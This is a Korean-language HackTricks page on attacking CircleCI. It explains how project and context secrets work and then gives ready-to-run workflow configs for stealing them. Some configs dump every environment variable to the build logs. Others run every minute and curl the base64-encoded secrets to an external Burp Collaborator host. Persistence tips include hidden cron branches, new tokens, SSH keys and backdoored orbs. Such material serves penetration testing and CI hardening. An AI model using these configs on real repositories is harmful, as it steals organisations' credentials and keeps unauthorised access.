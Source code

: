 # CircleCI 보안

<details>

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
{% endhint %}

## 기본 정보

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/)는 **템플릿을 정의**하여 코드와 실행 시기를 지정할 수 있는 **지속적 통합 플랫폼**입니다. 이를 통해 **테스트 자동화** 또는 **배포**를 **예를 들어 리포지토리 마스터 브랜치로 직접 자동화**할 수 있습니다.

## 권한

**CircleCI**는 **github 및 bitbucket과 관련된 권한을 상속**합니다.\
내 테스트에서는 **github 리포지토리에 쓰기 권한**이 있으면 **CircleCI에서 해당 프로젝트 설정을 관리**할 수 있음을 확인했습니다(새로운 ssh 키 설정, 프로젝트 api 키 가져오기, 새로운 CircleCI 구성으로 새 브랜치 생성 등).

그러나 **CircleCI 프로젝트로 리포지토리를 변환**하려면 **리포지토리 관리자**여야 합니다.

## 환경 변수 및 비밀

[**문서**](https://circleci.com/docs/2.0/env-vars/)에 따르면 워크플로 내에서 **환경 변수에 값 로드하는 다양한 방법**이 있습니다.

### 내장 환경 변수

CircleCI에서 실행되는 모든 컨테이너에는 항상 [**문서에 정의된 특정 환경 변수**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables)가 있습니다. 예를 들어 `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME`, `CIRCLE_USERNAME` 등이 있습니다.

### 평문

**명령어** 내에서 평문으로 선언할 수 있습니다:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
**run environment** 내에서 명확한 텍스트로 선언할 수 있습니다.
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
**build-job 환경** 내에서 명시적으로 선언할 수 있습니다.
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
당신은 **컨테이너 환경** 내에서 명확한 텍스트로 선언할 수 있습니다.
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### 프로젝트 비밀

이러한 것들은 **프로젝트**에 의해서만 **접근 가능**한 **비밀**입니다 (모든 브랜치에서).\
이들은 _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_ 에서 **선언된 것**을 볼 수 있습니다.

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
"**변수 가져오기**" 기능을 사용하면 **다른 프로젝트에서 변수를 가져와** 이 프로젝트에 **가져올 수 있습니다**.
{% endhint %}

### 컨텍스트 비밀

이러한 것들은 **조직 전체**에 대한 비밀입니다. **기본적으로 모든 저장소**가 여기에 저장된 **모든 비밀에 액세스할 수 있습니다**:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
그러나 다른 그룹(모든 구성원 대신)을 **선택하여 특정 사람들에게만 비밀에 액세스할 수 있도록** 할 수 있습니다.\
이것은 현재 비밀의 보안을 **높이는 가장 좋은 방법 중 하나**입니다. 모두가 액세스할 수 있는 것이 아니라 일부 사람들만 액세스할 수 있도록 하는 것입니다.
{% endhint %}

## 공격

### 평문 비밀 검색

만약 **VCS에 액세스**할 수 있다면(github 같은) 각 저장소의 각 브랜치의 `.circleci/config.yml` 파일을 확인하고 거기에 저장된 잠재적인 **평문 비밀**을 **검색**할 수 있습니다.

### 비밀 Env Vars & 컨텍스트 열거

코드를 확인하여 각 `.circleci/config.yml` 파일에서 **사용되는 모든 비밀 이름**을 찾을 수 있습니다. 또한 이러한 파일에서 **컨텍스트 이름**을 얻거나 웹 콘솔에서 확인할 수 있습니다: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### 프로젝트 비밀 유출

{% hint style="warning" %}
프로젝트 및 컨텍스트 **비밀을 모두 유출**하려면 github 조직 전체에서 **하나의 저장소에만 쓰기 액세스**가 있어야 합니다 (_그리고 기본적으로 모든 사람이 모든 컨텍스트에 액세스할 수 있어야 합니다_).
{% endhint %}

{% hint style="danger" %}
"**변수 가져오기**" 기능을 사용하면 **다른 프로젝트에서 변수를 가져와** 이 프로젝트에 **가져올 수 있습니다**. 따라서 공격자는 **모든 저장소에서 모든 프로젝트 변수를 가져와** 그리고 **모두 함께 유출**할 수 있습니다.
{% endhint %}

모든 프로젝트 비밀은 항상 작업의 env에 설정되어 있으므로 env를 호출하고 base64로 난독화하면 비밀을 **워크플로우 웹 로그 콘솔**에서 유출할 수 있습니다:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
만약 **웹 콘솔에 액세스할 수 없지만 레포지토리에 액세스**할 수 있고 CircleCI가 사용된다는 것을 알고 있다면, **매 분 트리거되는 워크플로우를 생성**하여 **시크릿을 외부 주소로 유출**할 수 있습니다:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### 컨텍스트 시크릿 유출

**컨텍스트 이름을 지정해야**합니다 (이는 프로젝트 시크릿도 유출됩니다):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
만약 **웹 콘솔에 액세스할 수 없지만 레포지토리에 액세스**하고 CircleCI가 사용된다는 것을 알고 있다면, **매 분 트리거되는 워크플로우를 수정**하여 **시크릿을 외부 주소로 유출**할 수 있습니다:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
`.circleci/config.yml` 파일을 새로 만드는 것만으로는 CircleCI 빌드를 트리거하는 데 충분하지 않습니다. CircleCI 콘솔에서 프로젝트로 **활성화해야 합니다**.
{% endhint %}

### 클라우드로 이동

**CircleCI**는 **자신의 머신이나 사용자의 머신에서 빌드를 실행할 수 있는 옵션**을 제공합니다.\
기본적으로 그들의 머신은 GCP에 위치해 있으며, 처음에는 관련된 것을 찾을 수 없을 것입니다. 그러나 피해자가 **자신의 머신(잠재적으로 클라우드 환경에서)**에서 작업을 실행 중이라면, **흥미로운 정보가 포함된 클라우드 메타데이터 엔드포인트를 찾을 수 있을 것**입니다.

이전 예제에서는 모든 것이 도커 컨테이너 내에서 실행되었지만, **VM 머신을 시작하도록 요청할 수도 있습니다**(이는 다른 클라우드 권한을 가질 수 있음):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
또는 원격 도커 서비스에 액세스 할 수있는 도커 컨테이너조차도:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### 지속성

* CircleCI에서 **사용자 토큰을 생성**하여 사용자 액세스로 API 엔드포인트에 액세스할 수 있습니다.
* _https://app.circleci.com/settings/user/tokens_
* 프로젝트 토큰을 **생성**하여 해당 토큰에 부여된 권한으로 프로젝트에 액세스할 수 있습니다.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* 프로젝트에 **SSH 키를 추가**할 수 있습니다.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* 예상치 못한 프로젝트의 숨겨진 브랜치에 **크론 작업을 생성**하여 매일 모든 **컨텍스트 환경 변수를 노출**시킬 수 있습니다.
* 또는 알려진 작업을 수정하여 매일 모든 컨텍스트 및 **프로젝트 비밀**을 **노출**시킬 수 있습니다.
* GitHub 소유자인 경우 **미검증된 오브**를 허용하고 작업에서 **백도어**로 구성할 수 있습니다.
* 일부 작업에서 **명령 삽입 취약점**을 찾아 **비밀**을 수정하여 **명령을 삽입**할 수 있습니다.

<details>

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 트릭을 **공유**하세요.

</details>
{% endhint %}
